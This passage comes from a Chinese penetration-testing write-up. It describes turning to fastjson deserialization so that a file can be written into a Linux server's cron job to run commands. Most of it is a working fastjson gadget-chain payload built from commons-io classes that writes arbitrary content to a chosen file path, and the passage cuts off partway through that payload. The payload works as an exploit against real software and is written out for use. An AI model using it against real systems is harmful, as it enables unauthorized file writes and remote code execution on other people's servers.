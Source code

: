 最后所有利用链都试得差不多了但没有成功，将目光转移到用fastjson写文件到定时任务中执行命令。ping服务器查看TTL可知是linux服务器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0UauicIyYI6d4FqicaKdl1o9JQEiaHMahb86gulEBaO3fxPOl9cAK6nicibg/640?wx_fmt=png&from=appmsg "")  
  
  
被框起来的地方就是要写入的内容  
```
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""testaaa"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"1.txt",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
```